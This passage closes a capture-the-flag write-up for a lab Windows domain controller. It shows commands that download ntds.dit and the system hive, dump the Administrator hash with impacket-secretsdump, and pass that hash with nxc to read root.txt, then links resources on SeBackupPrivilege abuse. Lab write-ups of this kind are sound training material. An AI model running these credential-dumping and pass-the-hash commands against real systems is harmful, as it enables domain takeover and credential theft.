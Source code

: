 ```powershell
download ntds.dit
download system.hive
```
{% endtab %}
{% endtabs %}

Finally, we can dump the `Administrator`'s hash and use it to snatch `root.txt` 🚩(Figure 15).

{% code overflow="wrap" %}
```bash
# dump the ntds.dit data and extract the administrator's hash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
# compromise the root.txt file
nxc smb 10.10.10.192 -u administrator -H admin_hash -x 'type c:\users\administrator\desktop\root.txt'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/blackfied_rooted.png" alt=""><figcaption><p>Figure 15: Dumping the ntds.dit data and snatching the root.txt flag!</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Backup Operators" %}
{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#backup-operators" %}
{% endtab %}

{% tab title="SeBackupPrivilege" %}
{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/" %}
{% endtab %}
{% endtabs %}
